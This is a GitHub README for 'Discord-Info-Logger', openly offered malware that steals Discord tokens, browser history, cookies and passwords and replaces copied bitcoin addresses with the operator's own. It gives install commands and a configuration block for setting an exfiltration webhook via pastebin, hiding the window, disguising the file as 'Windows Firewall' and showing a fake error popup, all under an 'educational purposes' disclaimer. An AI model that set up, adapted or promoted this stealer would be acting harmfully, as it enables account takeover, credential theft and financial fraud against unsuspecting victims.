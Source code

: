 # Discord-Info-Logger
A free, efficient, and open-source discord token logger, that also grabs history, cookies, passwords, and intercepts bitcoin addresses. This is purely for demonstration/educational purposes.

![Discord_l7wrf2Ymj6](https://user-images.githubusercontent.com/76016636/129282435-3fb34471-c880-433b-8910-da9ce7925cab.png)

## Setup

Depending on your python installation your commands may vary. 
Below are the commands needed to set up.
The script was tested in python 3.8.6, on windows 10. This script only works on windows.

Windows:
```
git clone https://github.com/LocalsGitHub/Discord-Info-Logger.git
cd Discord-Info-Logger
pip install -r requirements.txt
py TokenLogger.py
```
## Config

Once you have opened the script in your desired text editor, there are 3 lines that you can change.
```
# Configuration
debugger = False <--- Change this if you are having any issues with the logger. It will print any errors.
BTC_ADDRESS = '3LsZH7LqxJMZBaVU9YoTLk8HNnUcmzE88v' <--- Change this to your own bitcoin address.
pastebin = "https://pastebin.com/raw/id" <--- Change this to your own pastebin link that contains your webhook.
hiddenWindow = False <--- Set this to True or False. If you want the window to be hidden on execution then set this to True.
FakeFileName = "Windows Firewall" <--- Change this to the fake desired name.
fakeError = True  <--- Set this to True or False. If you want a fake error message to popup then set it to True.
fakeErrorMessage = "An unexpected error has occured."  <--- If you have fakeError enabled, change this to what you want the fake error popup to say.
fakeErrorTitle = "Oops!" <--- If you have fakeError enabled, change this to what you want the fake error popup title to say.
```

# Support
Create an issue, or message me on discord.

# Credit

Credit to me for maintaining this project, adding the data logger, gofile upload, and fixing any bugs that arise, and small changes.<br>
Credit to checksum ([Github](https://github.com/ecriminal)) for the token logger<br>
Credit to NightFallGT ([Github](https://github.com/nightfallgt)) for the BTC Clipper<br>
Credit to anyone else who I forgot :)<br>
